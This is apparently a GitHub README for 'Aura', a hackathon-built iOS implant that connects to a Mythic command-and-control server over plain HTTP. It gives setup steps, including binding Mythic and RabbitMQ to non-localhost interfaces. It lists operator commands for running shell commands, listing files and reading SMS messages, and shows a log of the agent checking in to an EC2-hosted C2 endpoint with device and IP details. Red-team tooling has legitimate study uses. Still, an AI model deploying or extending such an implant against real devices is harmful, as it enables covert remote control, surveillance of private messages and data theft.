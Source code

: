 # [DRAFT] Aura iOS Agent


## Description
Aura is an iOS payload designed to interact with a Mythic C2 (command and control) server and was developed over the [2024 Microsoft Global Hackathon](https://microsoft.sharepoint.com/sites/MicrosoftGlobalHackathon2024). To fit within the time constraint of one week:
* The agent communicates over plain text HTTP channels
* Mythic will manage and initate the agent builds per-usual, but the actual compilation and configuration of the agent will take place remotely on macOS w/iOS SDK outside of Docker.
* A limited number of commands will be implemented.

### Requirements
* iOS 12


## Warnings
* The Aura agent currently only supports plain-text HTTP comms.
* This is a development build only requiring a macOS build server for iOS compilation.
    * Mythic usually requires Agent code be hosted in Docker containers.


## Usage
1. Edit the Mythic environement file: `Mythic/.env` to:
    1. `MYTHIC_SERVER_BIND_LOCALHOST_ONLY="false"`
    2. `RABBITMQ_BIND_LOCALHOST_ONLY="false”`
    3. Grab the password for RabbitMQ
2. Start [Mythic C2](https://github.com/its-a-feature/Mythic) (you'll need to have this already)
3. Clone this repository
4. Edit `Payload_Type/rabbitmq_config.json` with the values from the Mythic server
5. Run `python Payload_Type/main.py` 
6. 🥳 In the Mythic UI you can now build and install Aura!!

## Operator commands
| Description | Implemented Command |
| - | - |
| Execute a shell command | `shell_exec [args]` |
| List a file | `ls [args]` |
| Read and correlate SMS messages | `messages` |
| Exit and uninstall the Agent | `exit` |

## Execution example
```txt
2024-09-20 18:13:33.914 aura[2322:270194] 👋 Hello from the Aura iOS agent!
2024-09-20 18:13:33.916 aura[2322:270194] [DEBUG] Check-in URL: http://ec2-54-245-60-126.us-west-2.compute.amazonaws.com:80/agent_message
2024-09-20 18:13:34.027 aura[2322:270194] {
    action = checkin;
    architecture = arm64;
    domain = local;
    "external_ip" = "136.24.173.189";
    host = "brandontonsipad.localdomain";
    "integrity_level" = 2;
    ips =     (
        "192.168.0.18"
    );
    os = "iOS 12.5.7";
    pid = 2322;
    "process_name" = aura;
    user = mobile;
    uuid = "b355bc11-0c78-41ec-b3b7-7220561137fa";
}
```